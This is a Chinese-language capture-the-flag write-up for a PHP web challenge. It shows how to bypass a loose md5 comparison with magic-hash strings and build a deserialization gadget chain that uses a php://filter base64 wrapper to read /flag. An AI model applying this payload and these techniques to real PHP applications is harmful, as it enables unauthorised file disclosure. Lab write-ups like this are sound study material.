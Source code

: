 ```yaml
---
title: hgamemini-mynotebook
tags: 
  - PHP 反序列化
  - PHP md5 碰撞
description: ISCTF php 一句话木马
---
```

# my notebook
首先查看题目
![](./img//Snipaste_2023-11-30_14-42-46.png)
让我们输入一些东西并上传，没有什么输入的头绪，我们按f12查看网页源代码，通过提示，发现可以通过爆破目录得到源码
![](./img/Snipaste_2023-11-30_14-56-58.png)
![Alt text](./img/Snipaste_2023-11-30_14-55-41.png)
![Alt text](./img/Snipaste_2023-11-30_14-49-58.png)
查看`login.php`代码，发现当` (md5($_POST['check-code-1']) == md5($_POST['check-code-2']))`
并且`$_POST['check-code-1'] == $_POST['check-code-2']`会进入`index.php`

因此我们查阅资料，参考md5这个哈希函数的知识点，md5是通过对代码进行摘要和加密形成的一段密文，所以如果是三个`=`要求类型也要一致，字符串比较很难达到相等的结果，但题目只要求两个`=`,因此发现只要传入参数a=s1885207154a，b=s1836677006a，即可
![](./img/Snipaste_2023-11-30_18-27-22.png)来到了index.php的界面，接着查看`index.php`的代码
![](./img/Snipaste_2023-11-30_18-31-22.png)
发现需要观察`get.php`和`./save.php`以及`mainlass.php`
```php
<?php
class HereWeGo{
    public $try;
    public function __destruct(){
        $this->try->gogogo();
    }
}

class GoGoGo{
    public $go;

    public function __construct($go)
    {
        $this->go = $go;
    }

    public function __call($name,$arguments){
        return $this->go->web;
    }
}

class Evil{
    public $file;
    public $final;

    public function __construct($file){
        $this->file = $file;
    }
    //The flag is in /flag
    public function __get($Attribute){
        $result = file_get_contents($this->file);
        if(preg_match('/vidar/i',$result)){
            $this->final = "HACKER!!!";
            file_put_contents('flag.txt',$this->final);
            return;
        }
        $this->final = $result;
        file_put_contents('flag.txt',$this->final);
    }
}
?>

```
观察到我们需要构造一条反序列化链，我们的目标是让代码中的`get`魔术方法被调用，从而达到把final的内容放到flag的效果。
因此，我们先来调用`get`魔术方法，要求调用不存在的成员，观察其它类中的成员发现`class GoGoGo`可以达到这个效果，要求我们先调用`__call`魔术方法。
>__call() 方法可以也只能用在类中，当调用类的对象的一个 不存在 的方法 ( 不存在或该方法不可访问 ) 时自动调用。
观察代码，发现`class HereWeGo`存在不存在的gogogo()函数，因此我们将`gogogo()`所在的`try`成员放在`GoGoGo`中，以此类推，形成一条完整的反序列化链条的构造，其中注意要反序列话都是链条的起点
```php
myEvil =new Evil('php://filter/read=convert.base64-encode/resource=/flag');
$myHereWeGo=new HereWeGo();
$myGoGoGo=new GoGoGo($myEvil);
$myHereWeGo->try=$myGoGoGo;
$a=serialize($myHereWeGo);
echo $a;
```
还要注意另一个问题，代码中要求文件开头不能是vidar，因此要利用`filter`协议进行base64编码
，上传`payload`
![](./img/Snipaste_2023-11-30_19-09-43.png)
![](./img/Snipaste_2023-11-30_19-10-13.png)
得到`flag`。